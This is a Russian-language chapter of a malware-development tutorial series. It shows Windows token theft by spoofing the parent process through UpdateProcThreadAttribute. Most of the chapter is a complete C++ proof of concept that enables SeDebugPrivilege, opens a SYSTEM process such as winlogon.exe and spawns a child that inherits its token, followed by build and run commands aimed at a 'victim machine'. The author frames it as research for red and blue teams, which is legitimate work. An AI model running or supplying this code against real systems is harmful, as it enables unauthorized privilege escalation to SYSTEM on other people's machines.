






\newpage
\subsection{83. разработка вредоносного ПО: закрепление (persistence) - часть 17 - APT техники: Кража токена через UpdateProcThreadAttribute. Простой пример на C++.}

﷽

Привет, энтузиасты кибербезопасности и белые хакеры!     

{:class="img-responsive"}    

Этот пост является результатом моего собственного исследования одной из более интересных APT-техник: кражи токена через `UpdateProcThreadAttribute`.     

В предыдущем [посте](https://cocomelonc.github.io/tutorial/2022/09/25/token-theft-1.html) я писал о классической краже токена через `DuplicateTokenEx` и `CreateProcessWithTokenW`. Сегодня я опишу альтернативный метод, который работает, начиная с Windows Vista.     

### UpdateProcThreadAttribute

В первой части моего руководства мы просто выполняли классический трюк: включали `SE_DEBUG_PRIVILEGE`, открывали токен из любого системного процесса (что работает даже для защищенных процессов), дублировали токен, настраивали привилегии на нем, а затем использовали этот токен.     

Сегодня мы можем использовать более простой трюк. Microsoft реализовала в Windows Vista возможность явно указывать родительский процесс при создании нового процесса, что позволяет повышенному процессу оставаться дочерним по отношению к вызывающему.    

Обычно в случае UAC необходимо явно передавать токен новому процессу. Если токен не передается, новый процесс унаследует его от назначенного родителя. Единственное условие - дескриптор родительского процесса должен иметь привилегию доступа `PROCESS_CREATE_PROCESS`.     

Таким образом, мы просто открываем какой-либо системный процесс с правом `PROCESS_CREATE_PROCESS`. Затем используем этот дескриптор с `UpdateProcThreadAttribute`. В результате наш процесс наследует токен системного процесса.     

```cpp
BOOL UpdateProcThreadAttribute(
  LPPROC_THREAD_ATTRIBUTE_LIST lpAttributeList,
  DWORD                        dwFlags,
  DWORD_PTR                    Attribute,
  PVOID                        lpValue,
  SIZE_T                       cbSize,
  PVOID                        lpPreviousValue,
  PSIZE_T                      lpReturnSize
);
```

И все, что требуется для работы этого метода - `SE_DEBUG_PRIVILEGE`.    

### техника. практический пример

Прежде всего, иногда вам нужно включить `SeDebugPrivilege` в текущем наборе привилегий:     

```cpp
// set privilege
BOOL setPrivilege(LPCTSTR priv) {
  HANDLE token;
  TOKEN_PRIVILEGES tp;
  LUID luid;
  BOOL res = TRUE;

  tp.PrivilegeCount = 1;
  tp.Privileges[0].Luid = luid;
  tp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;

  if (!LookupPrivilegeValue(NULL, priv, &luid)) res = FALSE;
  if (!OpenProcessToken(GetCurrentProcess(), 
  TOKEN_ADJUST_PRIVILEGES, &token)) res = FALSE;
  if (!AdjustTokenPrivileges(token, FALSE, &tp, sizeof(TOKEN_PRIVILEGES), 
  (PTOKEN_PRIVILEGES)NULL, (PDWORD)NULL)) res = FALSE;
  printf(res ? "successfully enable %s :)\n" : 
  "failed to enable %s :(\n", priv);
  return res;
}
```

Затем "откроем" процесс, токен доступа которого мы хотим украсть, с правами доступа `PROCESS_CREATE_PROCESS`:

```cpp
HANDLE ph = OpenProcess(PROCESS_CREATE_PROCESS, false, pid);
```

После этого используем его дескриптор с `UpdateProcThreadAttribute`:

```cpp
ZeroMemory(&si, sizeof(STARTUPINFOEXW));
ZeroMemory(&pi, sizeof(PROCESS_INFORMATION));
InitializeProcThreadAttributeList(NULL, 1, 0, &size);
si.lpAttributeList = (LPPROC_THREAD_ATTRIBUTE_LIST)HeapAlloc(
  GetProcessHeap(),
  0,
  size
);
InitializeProcThreadAttributeList(si.lpAttributeList, 1, 0, &size);
UpdateProcThreadAttribute(si.lpAttributeList, 0, 
PROC_THREAD_ATTRIBUTE_PARENT_PROCESS, &ph, sizeof(HANDLE), NULL, NULL);
si.StartupInfo.cb = sizeof(STARTUPINFOEXW);
```

Наконец, создаем процесс:

```cpp
res = CreateProcessW(app, NULL, NULL, NULL, true, 
EXTENDED_STARTUPINFO_PRESENT | CREATE_NEW_CONSOLE, NULL, NULL, 
(LPSTARTUPINFOW)&si, &pi);
printf(res ? "successfully create process :)\n" : 
"failed to create process :(\n");
```

Итак, полный исходный код этой логики выглядит так:    

```cpp
/*
hack.cpp
token theft via
UpdateProcThreadAttribute
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/10/28/token-theft-2.html
*/
#include <windows.h>
#include <stdio.h>
#include <iostream>

// set privilege
BOOL setPrivilege(LPCTSTR priv) {
  HANDLE token;
  TOKEN_PRIVILEGES tp;
  LUID luid;
  BOOL res = TRUE;

  tp.PrivilegeCount = 1;
  tp.Privileges[0].Luid = luid;
  tp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;

  if (!LookupPrivilegeValue(NULL, priv, &luid)) res = FALSE;
  if (!OpenProcessToken(GetCurrentProcess(), TOKEN_ADJUST_PRIVILEGES, &token)) 
  res = FALSE;
  if (!AdjustTokenPrivileges(token, FALSE, &tp, sizeof(TOKEN_PRIVILEGES), 
  (PTOKEN_PRIVILEGES)NULL, (PDWORD)NULL)) res = FALSE;
  printf(res ? "successfully enable %s :)\n" : 
  "failed to enable %s :(\n", 
  priv);
  return res;
}

// create process
BOOL createProcess(DWORD pid, LPCWSTR app) {
  STARTUPINFOEXW si;
  PROCESS_INFORMATION pi;
  SIZE_T size;
  BOOL res = TRUE;
  HANDLE ph = OpenProcess(PROCESS_CREATE_PROCESS, false, pid);
  printf(ph ? "successfully open process :)\n" : 
  "failed to open process :(\n");

  ZeroMemory(&si, sizeof(STARTUPINFOEXW));
  ZeroMemory(&pi, sizeof(PROCESS_INFORMATION));
  InitializeProcThreadAttributeList(NULL, 1, 0, &size);
  si.lpAttributeList = 
  (LPPROC_THREAD_ATTRIBUTE_LIST)HeapAlloc(GetProcessHeap(), 0, size);
  InitializeProcThreadAttributeList(si.lpAttributeList, 1, 0, &size);
  UpdateProcThreadAttribute(si.lpAttributeList, 0, 
  PROC_THREAD_ATTRIBUTE_PARENT_PROCESS, &ph, sizeof(HANDLE), NULL, NULL);
  si.StartupInfo.cb = sizeof(STARTUPINFOEXW);

  res = CreateProcessW(app, NULL, NULL, NULL, true, 
  EXTENDED_STARTUPINFO_PRESENT | CREATE_NEW_CONSOLE, NULL, NULL, 
  (LPSTARTUPINFOW)&si, &pi);
  printf(res ? "successfully create process :)\n" : 
  "failed to create process :(\n");
  return res;
}

int main(int argc, char** argv) {
  if (!setPrivilege(SE_DEBUG_NAME)) return -1;
  DWORD pid = atoi(argv[1]);
  if (!createProcess(pid, L"C:\\Windows\\System32\\mspaint.exe")) return -1;
  return 0;
}
```

Как можно видеть, код немного отличается от предыдущей части. Этот код - просто "грязный" PoC, для упрощения я запускаю `mspaint.exe`.      

### демонстрация

Давайте посмотрим, как все работает на практике. Компилируем наш PoC:    

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections \
-Wno-write-strings -fno-exceptions -fmerge-all-constants \
-static-libstdc++ -static-libgcc -fpermissive
```

{:class="img-responsive"}    

Затем запускаем его на машине жертвы:    

```powershell
.\hack.exe <PID>
```

{:class="img-responsive"}    

Например, можно украсть токен доступа `winlogon.exe (PID: 544)`:     

{:class="img-responsive"}    

{:class="img-responsive"}    

{:class="img-responsive"}    

Как можно видеть, все сработало идеально!     

Надеюсь, этот пост окажется хотя бы немного полезным для специалистов начального уровня в области кибербезопасности (а возможно, и для профессионалов), а также повысит осведомленность синих команд об этой интересной технике и добавит оружие в арсенал красных команд.   

[Local Security Authority](https://learn.microsoft.com/en-us/windows-server/security/windows-authentication/credentials-processes-in-windows-authentication)       
[Privilege Constants](https://learn.microsoft.com/en-us/windows/win32/secauthz/privilege-constants)     
[LookupPrivilegeValue](https://learn.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-lookupprivilegevaluea)    
[AdjustTokenPrivileges](https://learn.microsoft.com/en-us/windows/win32/api/securitybaseapi/nf-securitybaseapi-adjusttokenprivileges)     
[UpdateProcThreadAttribute](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-updateprocthreadattribute)    
[CreateProcessW](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createprocessw)       
[APT techniques: Token theft. Part 1](/tutorial/2022/09/25/token-theft-1.html)     
[исходный код на github](https://github.com/cocomelonc/meow/tree/master/2022-10-28-token-theft-2)        
